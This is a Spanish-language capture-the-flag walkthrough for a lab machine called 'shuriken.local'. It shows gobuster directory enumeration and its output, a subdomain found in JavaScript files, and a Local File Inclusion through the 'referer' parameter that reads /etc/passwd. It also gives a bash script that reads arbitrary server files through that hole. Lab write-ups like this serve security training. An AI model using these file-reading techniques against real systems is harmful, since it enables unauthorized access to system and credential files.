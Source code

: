 - Al entrar a la página principal vemos una página empresarial común; hacemos una búsqueda de directorios con `gobuster`:

```bash
$gobuster dir -u 192.168.1.49 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

```js
===============================================================
2023/03/14 15:46:05 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://192.168.1.49/css/]
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.49/img/]
/index.php            (Status: 200) [Size: 6021]                              
/js                   (Status: 301) [Size: 309] [--> http://192.168.1.49/js/] 
/secret               (Status: 301) [Size: 313] [--> http://192.168.1.49/secret/]
/server-status        (Status: 403) [Size: 277]                                  
/.htpasswd            (Status: 403) [Size: 277]                                  
/.hta                 (Status: 403) [Size: 277]                                  
/.htaccess            (Status: 403) [Size: 277]     
```

- Revisamos el contenido del directorio "/secret" y vemos una imagen, la abrimos y solo se muestra el logo de `JavaScript`, como se trata de una CTF podría tratarse de una pista.

- Analizamos el directorio "/js" y vemos que contiene dos archivos JavaScript, leemos el primero y en su contenido encontramos un subdominio `"http://broadcast.shuriken.local"`, lo agregamos al "/etc/hosts" con su respectivo dominio.

- Entramos al subdominio "broadcast.shuriken.local" y nos pidre `credenciales`, por el momento no contamos con ninguna así que seguimos enumerando.

- Si entramos el dominio "shuriken.local" nos muestra la página principal que vimos al inicio.

- Leemos el segundo archivo JavaScript del directorio "/js" y en su contenido encontramos el siguiente enlace: `"http://shuriken.local/index.php?referer="`
<br><br>
# LFI + Bash Scripting:

- Se trata del index de la página principal pero está apuntando a un parámetro, sospechamos de un `LFI` e intentamos acceder al archivo "/etc/passwd"

```
http://shuriken.local/index.php?referer=/etc/passwd
```

- Dentro del código fuente podremos confirmar que efectivamente es vulnerable; para hacer más cómodo este LFI nos crearemos una `script` en bash:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
  echo "Uso: $0 Archivo"
  exit 1
fi

file=$1

target="http://shuriken.local/index.php?referer=$file"

content=$(curl -s "$target" | sed -n '136,$p' | sed -n '/<script/q;p')

echo "$content"
```
